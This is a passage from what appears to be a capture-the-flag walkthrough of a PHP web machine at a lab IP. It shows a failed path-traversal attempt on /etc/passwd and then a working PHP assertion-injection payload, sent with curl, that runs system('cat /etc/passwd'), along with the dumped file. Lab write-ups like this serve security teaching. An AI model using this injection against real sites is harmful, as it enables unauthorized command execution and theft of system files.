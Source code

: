 ```
                                    <li><a href="index.php?page=about">About Us</a></li>
                                    <li><a href="index.php?page=blog-single">Blog Details</a></li>
                                </ul>
                            </li>
                            <li><a href="index.php?page=contact">Contacts</a></li>
                        </ul>
                    </nav>
                </div>
            </div>
...

```

This seems like a good candidate for an LFI attack.

```
kali@kali:~$ curl "http://192.168.120.218/index.php?page=../../../etc/passwd"
Not so easy brother!

```

Looks like we’ll have a harder time than we thought.

## **Exploitation**

### **PHP assertions**

Going from the machine name and the php file extensions, we can guess that the machine is about php assertions.By using Google to search for ways to bypass php assertions, we find similar challenges and we get some suggestions to try.After a couple of tries, we find that the following payload works wonders:

```
page=' and die(system('cat /etc/passwd')) or '

```

Not forgetting to URL encode the spaces, we use `curl` to send it.

```
kali@kali:~$ curl "http://192.168.120.218/index.php?page='+and+die(system('cat+/etc/passwd'))+or+'"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
```